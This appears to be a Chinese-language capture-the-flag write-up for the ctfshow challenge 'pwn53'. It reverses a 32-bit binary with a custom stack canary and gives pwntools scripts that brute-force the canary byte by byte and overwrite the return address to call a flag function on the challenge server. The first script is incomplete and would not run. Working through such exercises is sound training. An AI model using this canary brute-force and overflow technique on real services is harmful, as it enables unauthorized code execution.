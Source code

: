 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn53
```

```
tasike@tasike-VM:~/Desktop$ file pwn53
pwn53: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6b99653799eba7916f9b35c7a4eeb0eb697bceb7, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn53
[*] '/home/tasike/Desktop/pwn53'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

`32bit`，没有开启`栈保护`，堆栈不可执行

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  logo(&argc);
  canary();
  ctfshow();
  return 0;
}
```

跟进`canary`

```c
int canary()
{
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("/canary.txt", "r");
  if ( !stream )
  {
    puts("/canary.txt: No such file or directory.");
    exit(0);
  }
  fread(&global_canary, 1u, 4u, stream);
  return fclose(stream);
}
```

> 把`canary.txt`以只读的模式打开，打开成功则返回`FILE*`指针给`stream`；
>
> 
>
> `fread`函数是一个在C语言中常用的文件读取函数，它的原型是：`size_t fread(void *buffer, size_t size, size_t count, FILE *stream)`。这个函数从指定的文件流中读取数据，最多可以读取count个项，每个项的大小为size个字节。
>
>  
>
> 从`stream`文件流中读取4个字节的数据到全局变量`global_canary`中。

跟进`ctfshow`

```c
int ctfshow()
{
  size_t nbytes; // [esp+4h] [ebp-54h] BYREF
  char v2[32]; // [esp+8h] [ebp-50h] BYREF
  char buf[32]; // [esp+28h] [ebp-30h] BYREF
  int s1; // [esp+48h] [ebp-10h] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]

  v5 = 0;
  s1 = global_canary;
  printf("How many bytes do you want to write to the buffer?\n>");
  while ( v5 <= 31 )
  {
    read(0, &v2[v5], 1u);
    if ( v2[v5] == 10 )
      break;
    ++v5;
  }
  __isoc99_sscanf(v2, "%d", &nbytes);
  printf("$ ");
  read(0, buf, nbytes);
  if ( memcmp(&s1, &global_canary, 4u) )
  {
    puts("Error *** Stack Smashing Detected *** : Canary Value Incorrect!");
    exit(-1);
  }
  puts("Where is the flag?");
  return fflush(stdout);
}
```

> 第10行：把`global_canary`的值赋给`s1`，由于`s1`是`int`，因此可以猜测之前`canary`函数中用`fread`读入`global_canary`的数据就是一个`int`类型的数据。
>
>  
>
> 第12~18行：读入字符到`v2`字符数组中，除非有换行符(ASCII码为10)，否则将读满`v2`
>
>  
>
> 第19行：从字符串`v2`中读取一个`%d`对应类型的数据（`int`类型）到`nbytes`中。
>
>  
>
> 第21行：从标准输入（文件描述符为0）读取`nbytes`字节的数据到`buf`中。
>
>  
>
> 因此第12~21行就输入一个数字就行，然后输入的这个数字就表示要写多少个字节的数据到`buf`中。
>
>  
>
> `memcmp(&s1, &global_canary, 4u)` 是一个C语言函数调用，用于比较两个内存区域的内容。它接受三个参数：
>
> 1. `&s1`：指向第一个内存区域的指针。
> 2. `&global_canary`：指向第二个内存区域的指针。
> 3. `4u`：要比较的字节数。
>
> 该函数将逐个字节地比较两个内存区域的内容，并返回一个整数。如果两个内存区域的内容完全相同，则返回0；如果第一个内存区域的内容小于第二个内存区域的内容，则返回负数；如果第一个内存区域的内容大于第二个内存区域的内容，则返回正数。
>
> 因此第22行显然是`if(0)`

可以在函数表中找到一个`flag`函数

```c
int flag()
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("/ctfshow_flag", "r");
  if ( !stream )
  {
    puts("/ctfshow_flag: No such file or directory.");
    exit(0);
  }
  fgets(s, 64, stream);
  puts(s);
  return fflush(stdout);
}
```

> 显然只要执行`flag`函数就可以得到`flag`

显然能利用的溢出就是`ctfshow`函数中第21行，因此考虑`cyclic(0x30 + 0x4) + p32(flag)`，但是需要注意的是，`s1`与`ebp`距离`0x10`，直接利用`cyclic(0x30 + 0x4)`显然会覆盖`s1`，那么`ctfshow`函数中的第22行就不能保证`if(0)`。

因此，为了不覆盖`s1`，我们需要知道`s1`之前的值，假设之前的值是`num`，那么应构造`cyclic(0x20) + 'num' + cyclic(0x4) + p32(flag)`。

由于`s1`是`unsigned int`类型（因为一般canary不会是负的吧）的，因此直接爆破出`s1`即可`[0x00,0xFFFFFFFF)`。

`nbytes`取`0x20 + p32 + 0x4 + p32 = 44`



编写`attack53.py`

```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'criticle')  # 将日志级别设置为'critical'意味着只有严重的错误或关键事件才会被记录。

flag = 0x08048696

for canary in range(0xFFFFFFFF):
    r = remote('pwn.challenge.ctf.show', 28125)
	r.sendline("44")
	payload = cyclic(0x20) + p32(canary) + cyclic(0x4) + p32(flag)
    
```



```python
from pwn import *

context.log_level = 'critical'

canary = ''

for i in range(4):	
    for c in range(0xFF):
        io = remote('pwn.challenge.ctf.show', 28130)
        io.sendlineafter('>', '-1')
        payload = 'a' * 0x20 + canary + chr(c)
        io.sendafter('$ ', payload)
        io.recv(1)
        ans = io.recv()
        print(ans)

        if b'Canary Value Incorrect!' not in ans:
            print('The index({}),value({})'.format(i, c))
            canary += chr(c)
            break

        else:
            print('tring... ...')

        io.close()

print('canary=', canary)

io = remote('pwn.challenge.ctf.show', 28130)
elf = ELF('./pwn')
flag = elf.sym['flag']
payload = 'a' * 0x20 + canary + p32(0) * 4 + p32(flag)
io.sendlineafter('>', '-1')
io.sendafter('$ ', payload)
io.interactive()

```

